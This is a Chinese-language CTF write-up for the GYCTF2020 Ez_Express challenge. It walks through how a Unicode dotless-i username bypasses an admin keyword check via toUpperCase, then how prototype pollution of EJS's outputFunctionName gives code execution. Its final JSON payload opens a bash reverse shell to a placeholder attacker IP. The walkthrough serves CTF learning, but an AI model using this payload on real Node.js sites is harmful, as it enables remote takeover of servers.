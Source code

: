 # [GYCTF2020]Ez_Express
![](<./img/Pasted image 20230223233434.png>)

![](<./img/Pasted image 20230223233443.png>)

![](<./img/Pasted image 20230223233702.png>)

去掉杂七杂八的东西后大概是这么个结构

![](<./img/Pasted image 20230223235540.png>)

有用的貌似就一个`routes/index.js`

```javascript
var express = require('express');
var router = express.Router();
const isObject = obj => obj && obj.constructor && obj.constructor === Object;
const merge = (a, b) => {
    for (var attr in b) {
        if (isObject(a[attr]) && isObject(b[attr])) {
            merge(a[attr], b[attr]);
        } else {
            a[attr] = b[attr];
        }
    }
    return a
}
const clone = (a) => {
    return merge({}, a);
}
function safeKeyword(keyword) {
    if (keyword.match(/(admin)/is)) {
        return keyword
    }

    return undefined
}

router.get('/', function (req, res) {
    if (!req.session.user) {
        res.redirect('/login');
    }
    res.outputFunctionName = undefined;
    res.render('index', data = {'user': req.session.user.user});
});


router.get('/login', function (req, res) {
    res.render('login');
});



router.post('/login', function (req, res) {
    if (req.body.Submit == "register") {
        if (safeKeyword(req.body.userid)) {
            res.end("<script>alert('forbid word');history.go(-1);</script>")
        }
        req.session.user = {
            'user': req.body.userid.toUpperCase(),
            'passwd': req.body.pwd,
            'isLogin': false
        }
        res.redirect('/');
    }
    else if (req.body.Submit == "login") {
        if (!req.session.user) {res.end("<script>alert('register first');history.go(-1);</script>")}
        if (req.session.user.user == req.body.userid && req.body.pwd == req.session.user.passwd) {
            req.session.user.isLogin = true;
        }
        else {
            res.end("<script>alert('error passwd');history.go(-1);</script>")
        }

    }
    res.redirect('/');;
});
router.post('/action', function (req, res) {
    if (req.session.user.user != "ADMIN") {res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")}
    req.session.user.data = clone(req.body);
    res.end("<script>alert('success');history.go(-1);</script>");
});
router.get('/info', function (req, res) {
    res.render('index', data = {'user': res.outputFunctionName});
})
module.exports = router;
```

首先就是这个喜闻乐见的`merge`函数了，构造原型链污染的好朋友🙏

使用`merge`来实现`clone`函数，而`clone`在`/action`路由中被使用

关注`/action`路由，发现在调用`clone`函数之前存在对当前用户名的判断，只有当用户名为ADMIN时才能继续

那就注册一个用户名为ADMIN的账号，然而，观察到处理注册的`/login`路由中调用了`safeKeyword`检查用户名合法性，而`safeKeyword`恰恰ban掉了ADMIN

正则表达式和字符串比较应该是没有什么空子可以钻了，但是走的肯定是`/action`这条路，除非出题人真的做好了结束后被选手暴打一顿的准备（

继续审计注册相关逻辑，发现注册成功时向`session`写入的用户名经过了`toUpperCase`的处理以确保全为大写

结合首页的用户名只支持大写的提示，判断突破口在于`toUpperCase`相关的处理

然后就找到了[这篇文章](https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html)

![](<./img/Pasted image 20230224005515.png>)

![](<./img/Pasted image 20230224005810.png>)

在Unicode的小写字母分类中也找到了这个玩意，它的大写正好是拉丁大写字母`I`，通过这玩意就可以绕过注册时的正则判断啦

```
username: admın
password: 
```


![](<./img/Pasted image 20230224010341.png>)

然后就可以构造原型链污染啦

![](<./img/Pasted image 20230224010553.png>)

出题人大大贴心地设置了`/info`路由，把`outputFunctionName`写在了里面，明示`ejs`的漏洞

![](<./img/Pasted image 20230224010824.png>)

`ejs`的版本也印证了这一点

```json
{
	"__proto__": {
		"outputFunctionName": "x;process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1\"');s"
	}
}
```

![](<./img/Pasted image 20230224014908.png>)

再重新`GET`一次让payload编译进模板

![](<./img/Pasted image 20230224015015.png>)

![](<./img/Pasted image 20230224014653.png>)
